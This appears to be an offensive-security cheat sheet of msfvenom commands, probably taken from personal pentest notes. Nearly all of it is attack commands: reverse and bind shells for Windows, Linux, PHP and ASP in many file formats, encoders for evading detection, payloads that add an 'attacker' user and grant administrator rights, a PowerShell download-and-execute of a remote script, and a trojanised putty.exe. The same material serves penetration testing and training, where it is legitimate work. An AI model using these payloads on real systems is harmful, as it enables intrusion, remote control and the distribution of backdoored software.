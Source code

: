 ### MSFVenom Binary Generation:  

	msfvenom --list [formats/payloads/etc.]
	Common Params:
		-b "\x00\x0a\x0d" 
		-f c 
		-e x86/shikata_ga_nai -i 5 	#encoding
		EXITFUNC=thread
		PrependSetuid=True #Use this to create a shellcode that will execute something with SUID
	Windows:
		EXE: msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f exe > shell.exe ; nc –lvp 443
		Batch: msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.3 lport=443 > shell.bat ; nc –lvp 443
		HTA:  Host locally: msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f hta-psh > shell.hta ; Target: mshta http://192.168.1.3/shell.hta ; nc –lvp 443
		MSI:  msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f msi > shell.msi ; msiexec /quiet /qn /i shell.msi ; nc -lvp 443
		DLL:  msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f dll > shell.dll ; rundll32.exe shell.dll,0 ; nc -lvp 443
		PS (EncodedCommand):  msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.3 lport=443 -f psh-cmd -f raw
			x86: msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.158 LPORT=5555 -e x86/shikata_ga_nai -f psh-cmd
                	x64: msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.119.158 LPORT=5555 -e shikata_ga_nai -f psh-cmd
		PS Script:  msfvenom -p windows/x64/meterpreter_reverse_https lhost=192.168.1.3 lport=443 -f psh > shell.ps1 ; PowerShell –ep bypass; .\shell.ps1 ; use exploit/multi/handler ... set payload windows/x64/meterpreter_reverse_https
		VBS:  msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.119.120 LPORT=4444 -e x86/shikata_ga_nai -f vbs
		Hidden/Restricted Bind Shell:  msfvenom -p windows/shell_hidden_bind_tcp ahost=192.168.1.2 lport=4321 -f exe > file.exe
		Other Actions:
			Create User:  msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
			Execute Command:
				msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
				msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
		Techniques:
			Prepend Migrate Payload (for stability):  msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.2 lport=1234 prependmigrateprocess=explorer.exe prependmigrate=true -f exe > shell.exe
			Inject into Legit Executable:  msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 lport=4444 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe
	Linux:
		Reverse Shell:
			msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf
			msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
		Bind Shell:
			msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
	Web:
		PHP:
			msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
			cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
		ASP/x:
			msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
			msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx